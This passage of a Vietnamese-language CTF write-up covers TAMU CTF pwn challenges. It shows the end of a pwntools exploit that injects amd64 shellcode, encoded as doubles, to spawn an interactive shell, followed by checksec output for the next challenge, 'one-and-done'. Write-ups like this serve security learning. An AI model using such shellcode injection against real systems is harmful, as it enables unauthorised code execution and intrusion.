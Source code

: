 ```cs
    push rdi
    push rsp
    pop rsi

    push rdx
    push r12
    push rsi
    push rsp
    pop rdx

    xor rdi, rdi
    mov r10, rdi
    mov r8, rdi
    syscall
    """,
    endian='little',
    arch="amd64",
    bits=64
)
shellcode += b"\x90" * (8 - (len(shellcode) % 8))

print(disasm(shellcode, arch="amd64"))

for i in range(0, len(shellcode), 8):
    data = shellcode[i:i + 8]
    double = unpack('<d', data)[0]
    input()
    p.sendline(repr(double))

p.sendline(b"a")
p.interactive()
```

- ngoài ra mình cũng tìm thấy 1 shellcode thực thi /bin//sh tuy nhiên bằng 1 cách nào đó nó không hoạt động [here](https://shell-storm.org/shellcode/files/shellcode-905.html)



## one-and-done

- checksec : 

```cs
[*] '/home/ploi/pwn/ROP/tamu_ctf/one-and-done'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

- file : 
